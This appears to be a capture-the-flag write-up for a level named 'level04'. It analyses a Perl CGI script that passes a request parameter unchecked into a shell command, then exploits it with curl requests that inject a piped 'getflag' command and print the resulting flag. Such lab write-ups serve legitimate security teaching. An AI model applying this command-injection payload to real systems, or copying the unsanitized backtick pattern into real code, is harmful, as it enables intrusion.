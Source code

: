 # level04

- We log as `level04`

- We found two perl scripts, both named `level04.pl` , the first in the `home/user/level04` and the other one in `/var/www/level04`

- The content of both file is identical:
```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
	$y = $_[0];
	print `echo $y 2>&1`;
}
x(param("x"));
```
- The permissions are different for each files:

	`home/user/level04/level04.pl:`
>`-rwsr-sr-x 1 flag04 level04 152 Mar 5 2016 level04.pl`

	`var/www/level04.pl:`
>`-r-xr-x---+ 1 flag04 level04 152 Aug 17 22:43 level04.pl`

- The seconf file has extended permissions:
```
# file: level04.pl
# owner: flag04
# group: level04
user::r-x
group::r-x
group:www-data:r-x
mask::r-x
other::---
```

- With all those elements we can conclude that:
	- `#!/usr/bin/perl` - This script is written in perl
	- `use CGI qw{param};` - It is a CGI
	- `group:www-data:r-x` - It is used by a web service
	- `x(param("x"));` - It takes a parameter `x` and pass it to the function `x`
	- `$y = $_[0];` - It stores the parameter in `y`
	- `print 'echo $y 2>&1';` - `y` is run through `echo` without any parsing
	- `# localhost:4747` - The web service is running on port `4747`

- This means the parameter of this CGI is probably vulnerable to command injection

- We try executing the CGI using `curl -X POST -d "x= $PWD" http://localhost:4747`

- We can read `/var/www/level04` the `PWD` environment variable was successfully passed to `echo`

- We try injecting the `getflag` command using a pipe: `curl -X POST -d "x= | getflag" http://localhost:4747`

- We get the flag: `ne2searoevaevoem4ov4ar8ap`
